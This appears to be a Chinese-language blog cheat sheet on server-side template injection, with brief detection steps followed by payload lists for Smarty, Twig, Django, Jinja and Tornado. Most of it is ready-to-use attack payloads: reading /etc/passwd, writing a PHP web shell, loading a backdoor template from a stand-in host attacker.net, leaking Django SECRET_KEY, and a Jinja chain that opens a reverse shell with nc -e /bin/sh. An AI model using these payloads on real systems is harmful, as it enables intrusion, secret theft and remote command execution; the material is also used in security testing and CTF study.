

SSTI模板注入

<!-- more -->

# SSTI漏洞

## 什么是模板注入

 SSTI （服务器端模板注入）也是格式化字符串的一个非常好的例子，凡是使用模板的地方都可能会出现 SSTI 的问题，SSTI 不属于任何一种语言，沙盒绕过也不是。这种模板不仅存于Python中，PHP中也有不少模板引擎。


## 检测流程



首先输入`{{7*7}}`，返回值为`49`则表明存在SSTI

输入`{{system('cat /etc/passwd')}}`如果返回值则表明为**Smarty模板引擎**

输入`{{7*'7'}}`如果返回值是`49`则为**Twig模板引擎**

如果返回值是`7777777`则为**JinJa模板引擎**


---

## 姿势总结

### Smarty

payload：

```
{self::getStreamVariable("file:///etc/passwd")}

{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}

{literal}alert('xss');{/literal}

{if readfile('/flag')}{/if}
```


### Twig

payload:

```
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /etc/passwd")}}

<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat /etc/passwd") }
```


### Django

payload:

```
{user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
{user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
```


### Jinja

payload:

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil', 'w').write('from os import system%0aSHELL = system') }}
//写文件
{{ config.from_pyfile('/tmp/evil') }}
//加载system
{{ config['SHELL']('nc xxxx xx -e /bin/sh') }}
//执行命令反弹SHELL
```


### Tornado

payload:

```
http://ip:port/error?msg={{handler.settings}}
```


 